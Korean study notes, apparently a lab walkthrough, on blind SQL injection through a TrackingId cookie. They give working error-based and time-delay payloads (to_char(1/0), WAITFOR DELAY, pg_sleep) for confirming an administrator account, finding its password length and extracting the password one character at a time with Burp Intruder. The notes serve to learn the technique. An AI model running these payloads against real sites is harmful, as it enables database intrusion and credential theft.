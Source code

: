 
`TrackingId:adhfkj12398df` 원래는 이렇게 되있음. 

이거 값을 TrackingId: ' 으로 해보니 에러가 남. 
이걸로 지난 실험실과 똑같이 참, 거짓의 반응차이를 볼 수 있게 할 수 있음. 

조건문을 만들고 에러가 나면 참, 에러가 없으면 아무일 없게 만든다. 

```
'UNION+SELECT+CASE+WHEN+(1=2)+THEN+to_char(1/0)+ELSE+NULL+END+FROM+DUAL-- 
'UNION+SELECT+CASE+WHEN+(1=1)+THEN+to_char(1/0)+ELSE+NULL+END+FROM+DUAL-- 
```

위에는 조건이 거짓이라서 NULL 

아래는 조건이 참이 되서 to_char(1/0) error가 남. 

따라서 조건에 알아내고 싶은 내용을 넣어서 결과를 참 거짓으로 받을 수 있음. 

```
x'UNION+SELECT+CASE+WHEN+(username='administrator')+THEN+to_char(1/0)+ELSE+NULL+END+FROM+users-- 
```

설정한 username이 있으면 에러가 난다. administrator 있는거 확인. 

```
x'UNION+SELECT+CASE+WHEN+(username='administrator'+AND+length(password)>20)+THEN+to_char(1/0)+ELSE+NULL+END+FROM+users-- 
```

1부터 넣어보면서 20에서 에러가 안나는 것을 확인, 비번길이는 20자 

`x'UNION+SELECT+CASE+WHEN+(username='administrator'+AND+substr(password, §1§, 1)='§a§')+THEN+to_char(1/0)+ELSE+NULL+END+FROM+users--` 

intruder에 보내서, match는 internal을 넣어주고, cluster bomb으로 공격 



### 2.4.3. 에러조차 없는 경우

근데 에러도 안나면? 

time delay를 준다. SQL쿼리는 sync하게 처리되기에 HTTP도 다 막히게 되고, 그걸로 반응을 알아챌 수 있다. 

```
'; IF (1=2) WAITFOR DELAY '0:0:10'-- 
'; IF (1=1) WAITFOR DELAY '0:0:10'-- 
```

첫번째는 조건이 틀려서 아무 일없고, 두번째는 타임딜레이가 생긴다. 

**문제상황** 

에러도 표시가 안되는 환경 

타임딜레이로 조건을 판단한다. 

```
x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--
```

1=1일때는 10초 딜레이, 1=2일때는 없음. 타임 딜레이 이용가능 확인. 

